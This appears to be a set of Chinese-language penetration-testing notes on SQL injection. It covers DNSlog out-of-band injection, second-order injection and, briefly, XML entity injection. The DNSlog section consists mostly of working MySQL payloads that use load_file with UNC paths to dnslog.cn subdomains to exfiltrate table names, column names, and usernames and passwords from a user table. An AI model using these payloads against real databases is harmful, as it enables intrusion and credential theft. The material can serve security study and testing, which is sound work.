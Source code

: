   
## dnslog注入
### （1）原理
dnslog 平台会记录域名dns查询记录，通过我们把查询的结果和dns子域名拼接，发送给dnslog平台查询，就会记录我们的语句查询结果，从而快速提升延迟注入速度。
### （2）条件
root权限（要借助load_file()函数）
### （3）实战
* dns 注入列表名
`and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='jian' limit 0,1),'.tunxf1.dnslog.cn\\abc'))),1,1)--+`	查表名
`and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='xycms' limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+`
`and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='xycms' limit 1,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+`
* dns注入列列名
`and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='user' limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+`
`and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='user' and TABLE_SCHEMA='dbname' limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+`
第二个列名
`and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='user' limit 1,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+`
* dns注入列数据
`and if((select load_file(concat('\\\\',(select username from user limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+`
`and if((select load_file(concat('\\\\',(select password from user limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+`


  
## 二阶注入
### （1）使用条件
简单的来说，就是第一次注入时，开发者进行了编码等限制，无法直接进行注入，但是在数据库中保留了我们注入的语句，程序在其它地方再次调用保存着我们注入的语句时发生了注入，这就是二阶注入，有点类似存储型XSS漏洞的意思。
### （2）实战步骤
通过代码审计找到cms中可以写入数据的地方
写入时测试使用不同特殊字符查看是否过滤
攻击者在一个HTTP请求中提交恶意输入
用于将恶意输入保存在数据库中。
攻击者提交第二个HTTP请求
为处理第二个HTTP请求，应用检索存储在后端数据库中的恶意输入，动态构建SQL语句。
如果攻击实现，在第二个请求的响应中向攻击者返回结果。



## XML实体注入漏洞
### （1）形成原因
一般为代码注入
代码过滤不严
用户可控
### （2）实战
用户信息可能以xml形式保存
通过插入一些xml文件读取代码
